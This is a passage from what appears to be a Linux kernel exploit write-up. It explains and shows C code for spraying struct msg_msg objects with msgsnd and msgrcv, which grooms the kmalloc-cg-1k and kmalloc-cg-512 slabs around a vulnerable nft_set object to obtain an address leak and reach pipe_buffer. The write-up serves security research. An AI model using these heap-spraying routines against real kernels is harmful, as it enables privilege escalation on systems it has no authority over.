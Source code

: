 ```c
        for(size_t i = 0; i < spray_size; i++)
                for(size_t j = 0; j < iter; j++){
                        if(msgq_arr[i] < 0) continue;
                        if(send_msg(msgq_arr[i], data, cache_size - 48, mtype) < 0)
                                perror("msgsnd");
                }
        return;
}

void release_msg(int * msgq_arr, size_t spray_size){
        int ret;
        char msg_buf[0x2000];
        struct msgp * msg = (struct msgp *)msg_buf;

        for(size_t i = 0; i < spray_size; i++){
                if(msgq_arr[i] < 0) continue;
                memset(msg_buf, 0, sizeof(msg_buf));
                ret = msgrcv(msgq_arr[i], msg, sizeof(msg_buf) - 1, 0, IPC_NOWAIT);
                if(ret < 0) perror("msgrcv");
        }
}
```
We adjust the layout of `kmalloc-cg-1k` and `kmalloc-cg-512` slabs by spraying various sizes of `struct msg_msg` objects with `msgsnd` and `msgrcv` syscalls. This empirically stabilized the exploit somehow (by adjusting the slab layout or increasing the time windows for noise reduction). Every `struct msg_msg` is sprayed `MSG_MSG_SPRAY_CNT`(4096) times.

- [exploit/extra-refined/exploit.c#L755](../exploit/extra-refined/exploit.c#L755)
```c
memset(buf, 0, CG_MSG_MSG_SIZE);
// 1k-sized msg_msg is special
// it needs to be identified for control unaligned msg_msg
// thus, mark the beginn and end of msg content
// ...and let just avoid very first QWORD since it's used by msg_msgseg->next
for (int i = 0; i < MSG_MSG_SPRAY_CNT; i++)
{
	memset(buf, 0, 0x400);
	*(uintptr_t *)(buf + 8) = i;
	*(uintptr_t *)(buf + 0x400 - 48 - 8) = i;
	if (send_msg(msgqids2[i], buf, 0x400 - 48, 1) < 0)
		perror("msgsnd");
}
memset(buf, 0, CG_MSG_MSG_SIZE);
spray_msgsnd(msgqids2, MSG_MSG_SPRAY_CNT, CG_MSG_MSG_SIZE, buf, 1, 2);
```

We spray two types of `struct msg_msg` for exploit. Every `struct msg_msg` is sprayed `MSG_MSG_SPRAY_CNT`(4096) times. 
- 1k-sized `struct msg_msg`: It is sprayed to get an address leak and to enable access to `kmalloc-cg-1k` slabs, where the `struct pipe_buffer` object will be located. We mark the beginning and end of the payload to identify which message queue is holding the corresponding `struct msg_msg`.
- `CG_MSG_MSG_SIZE`(512)-sized `struct msg_msg`: It is sprayed after previous `struct msg_msg` objects using the same message queue id. This occupies `kmalloc-cg-512` slabs, where the vulnerable object (`struct nft_set`) will be located. This `struct msg_msg` contains the 1k-sized `struct msg_msg` pointers in list entry.
